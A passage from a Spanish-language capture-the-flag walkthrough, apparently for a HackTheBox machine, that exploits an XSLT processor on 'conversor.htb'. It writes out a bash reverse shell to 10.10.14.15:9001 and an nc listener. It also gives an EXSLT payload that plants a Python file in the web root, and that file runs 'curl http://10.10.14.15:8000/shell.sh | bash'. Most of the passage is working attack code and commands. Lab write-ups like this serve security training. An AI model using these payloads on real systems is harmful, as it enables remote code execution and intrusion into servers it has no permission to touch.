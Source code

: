 **Resultado:**
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.15/9001 0>&1
```

**Iniciar servidor HTTP:**
```bash
python3 -m http.server 8000
```

### Paso 2: Configurar el Listener

En otra terminal, preparamos el listener para recibir la conexión:

```bash
nc -lvnp 9001
```

**Salida esperada:**
```
Listening on 0.0.0.0 9001
```

### Paso 3: Crear el Payload XSLT

**Archivo: `exploit.xslt`**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    version="1.0"
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exsl="http://exslt.org/common"
    extension-element-prefixes="exsl">
    
    <xsl:template match="/">
        <exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl http://10.10.14.15:8000/shell.sh | bash")
        </exsl:document>
    </xsl:template>
    
</xsl:stylesheet>
```

**Desglose del Payload:**

- `xmlns:exsl="http://exslt.org/common"`: Importa el namespace EXSLT
- `extension-element-prefixes="exsl"`: Habilita las extensiones EXSLT
- `<exsl:document href="...">`: Define dónde escribir el archivo
- `method="text"`: Escribe como texto plano (no XML)
- **Contenido**: Script Python que descarga y ejecuta nuestro `shell.sh`

### Paso 4: Crear el XML Dummy

